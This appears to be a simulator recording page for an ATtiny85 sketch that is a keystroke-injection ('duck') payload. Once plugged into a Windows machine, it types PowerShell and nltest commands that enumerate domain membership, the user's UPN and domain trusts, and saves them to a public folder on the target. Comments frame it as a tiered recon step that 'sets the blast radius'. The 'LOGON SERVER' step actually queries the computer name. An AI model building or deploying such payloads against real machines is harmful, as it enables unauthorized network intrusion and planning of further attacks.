
Recording of a sketch running on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. On the bench: output pins drawn as LEDs (lit = HIGH). The test bench sets the inputs (shaded band); at power-on: PB2 HIGH.

Above: at 0.1 s.
At 13.9 s:

Timing chart, 0 to 15.4 s (numbered marks = the images above):


The sketch:

domain.ino
```cpp
// recon/domain - Tier 2
//
// Domain membership, DC, trusts. Sets the blast radius.
//
// (no notes)
//
// Read-only, no persistence, nothing left behind except the text file named in
// R_OUT. Output lands in C:\Users\Public\ds-recon\ on the target.

#include <duck.h>

// PROGMEM: this string must live in flash, not SRAM. The ATtiny85 has 512
// bytes of RAM and this script is far larger than that.
static const char S[] PROGMEM =
    R_MKDIR
    "$cs=Get-CimInstance Win32_ComputerSystem"
    "[pscustomobject]@{PartOfDomain=$cs.PartOfDomain;Domain=$cs.Domain;Workgroup=$cs.Workgroup;DomainRole=$cs.DomainRole}|Format-List"
    "'=== UPN ==='"
    "whoami /upn 2>&1|Out-String"
    "'=== DOMAIN TRUSTS ==='"
    "nltest /domain_trusts 2>&1|Out-String -Width 200"
    "'=== LOGON SERVER ==='"
    "(Get-CimInstance Win32_ComputerSystem).Name"
    R_OUT("domain.txt")
    R_SHOW("domain.txt");

void setup() {
  duckBegin();
  ledPulse(2, 120, 120);
  recon(S);
  ledPulse(4, 150, 150);
}

void loop() {}
```
